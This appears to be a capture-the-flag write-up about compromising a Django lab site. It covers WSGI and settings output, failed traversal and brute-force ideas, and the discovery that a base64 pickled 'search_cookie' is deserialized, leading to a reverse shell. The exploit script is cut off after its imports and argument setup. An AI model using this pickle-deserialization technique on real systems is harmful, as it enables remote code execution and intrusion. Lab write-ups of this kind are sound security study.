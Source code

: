```
SERVER_SOFTWARE 'WSGIServer/0.2'
TZ 'UTC'
wsgi.errors 	
<_io.TextIOWrapper name='<stderr>' mode='w' encoding='utf-8'>
wsgi.file_wrapper 	
<class 'wsgiref.util.FileWrapper'>
wsgi.input 	
<django.core.handlers.wsgi.LimitedStream object at 0x7f15f70e0ac0>
wsgi.multiprocess 	
False
wsgi.multithread 	
True
wsgi.run_once 	
False
wsgi.url_scheme 'http'
wsgi.version 	
(1, 0)
```

Got a bunch of settings (Too many to list here)

```
Sqlite database -> /home/site/db.sqlite3
BaseDir = /home/site
Default Hashing : sha256
Smtp server on port 25 (localhost only)
Renderer : django.forms.renderers.DjangoTemplates
Session cookie serializer : django.contrib.sessions.serializers.JSONSerializer
```

Tryied traversing directory from the `/media/` route but didn't work

There is a lot of mention to pickle (Also in the challenge tag) so I guess there is some serialization of a pickle object somewhere.

Well there is definitely the detail but how do we get access to that ?

Trying to create a custom wordlist by crawling the website with `cewl` maybe we can bruteforce our way into the django admin page ?


After some time, finally figured out the place to input some stuff. The `search_cookie` is a base64 encoded pickled string.

We got to find a way to craft an object that can exploit this.

Tried with a pickled object with `__reduce__` but didn't seem to work. What method is called on this string ?

Ok soo, took a break and came back to this challenge the day after.

My problem was that I was setting the `search_cookie` on the `post` request but it was overritten by the query parameter.
The key was to do a `GET` on `/search` which trigger an error but decode the cookie.

So we got a reverse shell by using this code :
```py
import base64
import requests
import argparse
import pickle


parser = argparse.ArgumentParser("Exploit")

parser.add_argument('--server_ip', type=str, default="10.10.64.206")
parser.add_argument('--my_ip', type=str, default="10.6.32.20")

args = parser.parse_args()
```